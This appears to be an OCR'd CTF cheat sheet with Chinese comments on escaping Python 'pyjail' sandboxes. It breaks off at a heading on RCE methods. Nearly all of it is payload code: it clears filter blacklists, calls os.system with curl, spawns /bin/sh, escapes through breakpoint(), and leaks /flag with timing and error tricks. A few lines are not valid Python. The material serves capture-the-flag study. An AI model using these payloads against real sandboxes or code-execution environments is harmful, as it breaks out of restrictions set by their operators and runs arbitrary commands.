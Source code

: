```python

#清空
setattr(__import__("__main__"), "blacklist", list())

#过滤eval
exec("import os;os.system('curl xxx')")

#过滤数字
0=False
1=True
2=True+True=True-(-True)
3=True+True+True=True-(-True)-(-True)

#过滤request
#字符串request:
list(globals().keys())[11]
#request值：
globals()[list(globals().keys())[11]]

#过滤引号
chr(123)
str()


#盲注
time.sleep(3) if open('/flag').read()[0]=='c' else 1
flag.index('flag{...')
type(flag.split())(type(flag.split())(flag).pop({..}).encode()).remove({..})

#其他技巧
eval(input())
breakpoint() #调试模式
help()
(lambda:os.system('/bin/sh'))()
(__builtins__:=__import__('os'))and(lambda:system)()('sh') #过滤点
setattr(copyright,'__dict__',globals()),delattr(copyright,'breakpoint'),breakpoint()
[*open("flag"+chr(46)+"txt")] #open未过滤，read过滤
raise Exception(flag) #报错外带

#修饰符
@exec
@input
class A:
    pass
```



### pyjail一般思路

**RCE方法**
